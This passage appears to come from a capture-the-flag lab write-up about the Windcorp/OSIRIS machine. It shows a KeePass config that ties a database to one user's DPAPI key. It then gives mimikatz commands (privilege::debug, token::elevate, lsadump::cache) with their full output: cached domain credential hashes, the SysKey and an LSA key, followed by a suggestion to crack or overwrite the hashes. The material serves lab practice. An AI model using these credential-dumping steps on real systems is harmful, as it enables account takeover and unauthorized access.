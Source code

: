 Back to enumeration, we found a KeePass database in `chajoh` Documents `Database.kdbx`

we can view the config file in `C:\Users\chajoh\AppData\Roaming\KeePass\KeePass.config.xml` and it is using the user `chajoh` as a MasterKey (DPAPI) 
```
    <KeySources>
      <Association>
        <DatabasePath>..\..\Users\chajoh\Documents\Database.kdbx</DatabasePath>
        <UserAccount>true</UserAccount>
      </Association>
      <Association>
        <DatabasePath>..\..\Users\chajoh\Documents\Database2.kdbx</DatabasePath>
        <UserAccount>true</UserAccount>
      </Association>
    </KeySources>
```
So to open it, we need to log in as user `chajoh` by extracting her cached hash and run a dictionary attack or overwrite her hash. Both can be done with `mimikatz`
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

800     {0;000003e7} 1 D 32579          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;002d73c8} 2 F 12325976    OSIRIS\tom   S-1-5-21-2412384816-2079449310-1594074140-1004  (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 12408954    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::cache
Domain : OSIRIS
SysKey : fb2f42c056c3a91c3f8892df313f2481

Local name : OSIRIS ( S-1-5-21-2412384816-2079449310-1594074140 )
Domain name : WINDCORP ( S-1-5-21-555431066-3599073733-176599750 )
Domain FQDN : windcorp.thm

Policy subsystem is : 1.18
LSA Key(s) : 1, default {04097fcd-7247-4e79-b35b-2a7d5fee2779}
  [00] {04097fcd-7247-4e79-b35b-2a7d5fee2779} 0d155c51e747c1119d69e11e96f37364aaaa190673e7ccb1321a931636b166c2

* Iteration is set to default (10240)

[NL$1 - 9/19/2020 1:38:15 AM]
RID       : 00000465 (1125)
User      : WINDCORP\chajoh
MsCacheV2 : f52542bb7f50df1b7bb0fd0ef1778781

[NL$2 - 9/12/2020 4:14:18 AM]
RID       : 0000168a (5770)
User      : WINDCORP\shelweb
MsCacheV2 : c5e541582794b0a92f813ec250f3a3a6

[NL$3 - 10/3/2020 1:19:49 AM]
RID       : 00000573 (1395)
User      : WINDCORP\alcrez
MsCacheV2 : d314d29973862ad7d8166ba7999cbf2d
```